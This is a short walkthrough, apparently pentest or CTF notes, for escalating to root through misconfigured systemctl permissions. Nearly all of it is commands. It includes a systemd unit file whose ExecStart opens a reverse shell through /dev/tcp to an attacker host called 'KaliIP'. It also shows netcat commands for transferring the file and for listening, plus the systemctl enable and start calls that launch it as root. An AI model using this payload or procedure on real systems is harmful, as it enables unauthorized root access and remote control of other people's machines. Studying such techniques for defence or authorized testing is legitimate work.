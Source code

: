 https://stackoverflow.com/questions/2491985/find-all-writable-files-in-the-current-directory

https://www.maketecheasier.com/netcat-transfer-files-between-linux-computers/

https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

0. Prepare your payload `root.service`
```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
1. Find a directory that could write files 
```
find -type f -maxdepth 2 -writable
```
2. Transfter the payload
###### Init the target listening the port
```
nc -vl 44444 > root.service
```
###### Send file to traget
```
nc -n TargetIP 44444 < root.service
```
3. Start listening on the 9999
```
nc -lvnp 9999
```
4. Execute the payload(assume the file is under /var/tmp)
```
/bin/systemctl enable /var/tmp/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /var/tmp/root.service
Created symlink from /etc/systemd/system/root.service to /var/tmp/root.service
```
```
/bin/systemctl start root
```
5. listening on [any] 9999... now you get the root